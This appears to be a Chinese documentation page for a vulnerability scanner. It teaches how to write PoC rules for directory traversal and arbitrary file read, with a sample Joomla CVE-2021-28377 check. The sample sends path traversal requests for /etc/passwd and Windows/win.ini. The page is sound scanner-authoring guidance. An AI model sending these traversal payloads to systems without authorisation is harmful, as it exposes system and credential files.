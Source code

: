```yaml
---
title: '目录穿越/任意文件读取'
---
```


```yaml
name: poc-yaml-joomla-cve-2021-28377-fileread
manual: true
transport: http
rules:
	r0:
		request:
			cache: true
			method: GET
			path: /index.php?f=../../../../../../../etc/passwd
		expression: response.status == 200 && "root:.*?:[0-9]*:[0-9]*:".bmatches(response.body)
	r1:
		request:
			cache: true
			method: GET
			path: /index.php?f=../../../../../../../Windows/win.ini
		expression: response.status == 200 && response.body.bcontains(b"for 16-bit app support")
expression: r0() || r1()
detail:
	author: Chaitin
	links:
		- http://example.com
```

在这类漏洞中，必然至少有一个rule会去访问我们所需要读取的文件，那么

- 对于`读取文件`的rule中
    1. 关于读取的文件
        - 需要按照漏洞的利用方式去读取相关的文件
        - 如果目标系统中存在着某些通用的配置文件，那么首先推荐去读取这些web系统内的文件，尽可能地减少发包量，例如可以读取web.config等的文件
        - 其次我们再去考虑系统中的文件，这部分内容建议参考现在我们给出的poc模版相关内容。同时需要注意的是，读取系统文件时，我们需要充分考虑目标web系统能够被架设在哪些系统上，对于可行的系统都要写出相应的rule去进行匹配
    2. 关于匹配的内容
        - 这部分直接依据所读取的文件写出对应的匹配语句即可。但是需要注意的是，除了固有文件内容的匹配之外，如果页面内仍有其他特征内容，这里也是非常推荐去增加匹配这些内容
    3. 补充说明
       - 读取系统文件时，考虑到信息泄露的可能性，比如你的读取的response会记录在某个可以被访问的日志文件中，就会有一定的损害，所以尽量读取一些不会暴露信息的文件，比如`/etc/resolv.conf`等，实在找不到，再选择`/etc/passwd`

其他rule的内容需要按照漏洞的具体内容按需编写

## 模板

[目录穿越/文件读取](/plugins/practice/poc/Template#file-read)
